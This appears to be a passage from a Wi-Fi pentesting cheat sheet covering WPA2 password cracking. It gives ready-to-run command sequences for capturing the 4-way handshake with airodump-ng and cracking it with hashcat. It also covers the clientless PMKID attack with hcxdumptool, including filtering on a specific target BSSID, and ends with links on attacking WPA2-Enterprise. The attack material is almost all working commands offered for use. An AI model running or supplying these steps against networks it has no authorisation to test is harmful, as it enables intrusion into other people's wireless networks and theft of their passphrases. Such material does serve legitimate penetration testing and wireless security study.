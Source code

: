 #### Crack with hashcat

First, use airodump-ng to get the 4-way Handshake. Then convert the capture, so that it can be used with hashcat :

```
# Convert cap to hccapx
cap2hccapx <CAPTURE_NAME>.cap <CAPTURE_NAME>.hccapx

# Crack with hashcat
hashcat -m 2500 -a 0 <CAPTURE_NAME>.hccapx <PASSWORDS_WORDLIST>
```

#### Clientless - PMKID attack

##### Any SSID

```
# Capture PMKID
hcxdumptool -i wlan0 -o galleria.pcapng --enable_status=1

# Convert the dump for hashcat
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z galleriaHC.16800 galleria.pcapng

# Crack with hashcat
hashcat -m 16800 -a 0 galleriaHC.16800 <PASSWORDS_WORDLIST>
```

##### Specific SSID

```
# Get bssid of your target
airodump-ng <INTERFACE>

# Put bssid inside a file
echo "<BSSID>" | sed 's/://g' > bssid

# Capture specific BSSID
hcxdumptool -i <INTERFACE> -o galleria.pcapng --enable_status=15 --filterlist_ap=bssid --filtermode=2

# Convert the dump for hashcat
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z galleriaHC.16800 galleria.pcapng

# Crack with hashcat
hashcat -m 16800 -a 0 galleriaHC.16800 <PASSWORDS_WORDLIST>
```

### Attacking WPA2-Enterprise

- [https://teckk2.github.io/wifi%20pentesting/2018/08/09/Cracking-WPA-WPA2-Enterprise.html](https://teckk2.github.io/wifi%20pentesting/2018/08/09/Cracking-WPA-WPA2-Enterprise.html)
- [https://giuliocomi.blogspot.com/2018/06/wpa2-psk-vs-wpa2-enterprise-hacking-and.html](https://giuliocomi.blogspot.com/2018/06/wpa2-psk-vs-wpa2-enterprise-hacking-and.html)
- [https://github.com/Wh1t3Rh1n0/air-hammer](https://github.com/Wh1t3Rh1n0/air-hammer)
